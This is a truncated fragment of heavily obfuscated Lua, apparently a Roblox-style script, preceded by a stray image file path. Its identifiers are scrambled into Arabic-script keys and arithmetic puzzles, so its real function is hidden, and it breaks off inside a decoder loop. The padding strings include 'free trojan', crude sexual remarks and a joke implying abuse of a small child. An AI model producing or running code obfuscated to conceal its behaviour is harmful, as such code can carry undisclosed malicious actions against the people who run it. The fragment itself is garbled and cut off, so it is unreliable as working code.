 ,nil,nil;(function() _msec=(function(e,l,o)local Y=l["جئئؠدحسقڪڪد؃ڝن"];local F=o[e[(0x335c/19)]][e["ئؠكح؃دئزكجد"]];local M=((0xa1-125)+-#'xenny its znugget please respond')/(-119+(((0x58-72)+-#[[edp445 what are you doing to my 3 year old son]])+151))local i=((640-(0xecac/162))/0x85)-(0x66-101)local T=o[e[((217+-0x20)+-#"me big peepee")]][e["ق؃قآنآجندققئضجس"]];local C=(57-(186-(-#"require"+(260+-0x7b))))+(0x124/146)local c=o[e[(-#{{};1;(function()return{','}end)();{},(function()return{','}end)()}+515)]][e["ج؃قڝك؃؃ؠزكقزئڪئ"]]local n=(0x74+-114)-(151/(-#[[free trojan]]+(28836/(375-0xc5))))local k=(-#{",";'}','nil',1}+7)local P=((0x1998/((16385+-#{92,(function()return#{('pfKPOO'):find("\75")}>0 and 1 or 0 end),66,66,1})/90))-33)local U=(291/(((-0x41+312793)/31)/0x68))local w=(((-#[[Little kids]]+(22656/(218-(22448/0xb8))))-0x7d)-0x61)local f=(-0x15+(124-(-#[[This is working now]]+(0xba+(-0x16+-45)))))local s=(-#"ez monke"+(825/(81+-#{'nil',",",",";(function()return{','}end)(),'nil';20})))local D=((-96+(-#'big hard cock'+((-0x3e-5)+0xf1)))-0x3d)local N=(((-#"weezer"+(-0x42+((0xb-43)+283)))-0x99)+-#'IPIPEH ILOVE YOU AAAAA')local g=(8+-#{{};'}';(function()return{','}end)();'}'})local S=(0x28-(41+-#{'}';'}';'}';(function()return#{('OkpBhb'):find("\112")}>0 and 1 or 0 end);(function()return#{('OkpBhb'):find("\112")}>0 and 1 or 0 end)}))local p=((113+((13-((273-0x9c)+-86))+-#'edp445 what are you doing to my 3 year old son'))+-#"guys Please proceed to translate D to Sinhala")local _=((-#[[notbelugafan was here]]+(((-0x28+8)+0x4f12)/0xd7))-69)local t=(9+-#{74,{};74;1,'nil';198,'nil'})local x=(75+(0xa+((-25879+0x3283)/156)))local b=((203-(0x14a-(181+-#{",",165;1;(function()return#{('KohBBm'):find("\104")}>0 and 1 or 0 end);'nil'})))-47)local O=(79+(-17+(((-145+0x19)+0x32)+10)))local h=(6+-#{(function()return#{('fmmOKo'):find("\109")}>0 and 1 or 0 end);'}','nil';(function()return{','}end)()})local u=(((0x1645e+(-97+0x43))/0xc8)/0xe4)local L=e[(44672/0x20)];local K=o[e[(2408/0xe)]][e["نضحؠؠ؃ئټحكجؠحټآجحؠئ"]];local j=o[(function(e)return type(e):sub(1,1)..'\101\116'end)('قآدزنزڝح')..'\109\101'..('\116\97'or'قؠدآڝ؃ضك')..e[(-#"Rivers Cuomo"+(1156-0x27a))]];local A=o[e[(36720/0x48)]][e["حدزضض؃آآآڪدجح"]];local v=(-#"weezer"+(44+-0x24))-((-0x1c+((0x124-(432-0xe2))+-#'fish was here'))+-0x2b)local y=(-#'mee6 what are you doing to my wife'+(0xc18/(((-117+0x21d2)/0x49)+-#[[black mess more like white mesa]])))-((4440/0xde)+-#[[420Script Was Here]])local W=o[e[((20202/0x6f)+-#'sins daddy')]][e["جنآضسققڪئضدقحزد؃ك"]];local d=function(e,o)return e..o end local I=((0x1d0/29)+-#[[deobfuscated]])*(0x10c/(0x96c/((-27+0x22d7)/0xf7)))local z=o[e["جؠڪجڝئڪ؃زجآ"]];local a=(-0x45+71)*((0x4ea0/((-#'tonka'+(-96+0x118))+-43))+-#'BluntMan420 Was Here')local H=(-#"free trojan"+(155250/0x96))*(-#[[IPIPEH I WANNA FUCK WITH YOU]]+(((699-0x18a)-213)-0x3e))local R=(((704-0x18f)-187)+-0x42)local m=(((-96-((-0x46e/42)+-#'sinsploit'))+83)+-#"notbelugafan was here")*((150-0x89)+-#'free trojan')local B=o[e["كزكؠك؃ضحجججؠحسجنآجض"]]or o[e[(-#'187 ist die gang'+(-116+0x282))]][e["كزكؠك؃ضحجججؠحسجنآجض"]];local r=(((0x550d+-115)/34)-0x17d)local e=o[e["؃قآڪح؃؃ټټج"]];local A=(function(a)local r,l=2,0x10 local o={j={},v={}}local d=-n local e=l+i while true do o[a:sub(e,(function()e=r+e return e-i end)())]=(function()d=d+n return d end)()if d==(I-n)then d=""l=v break end end local d=#a while
e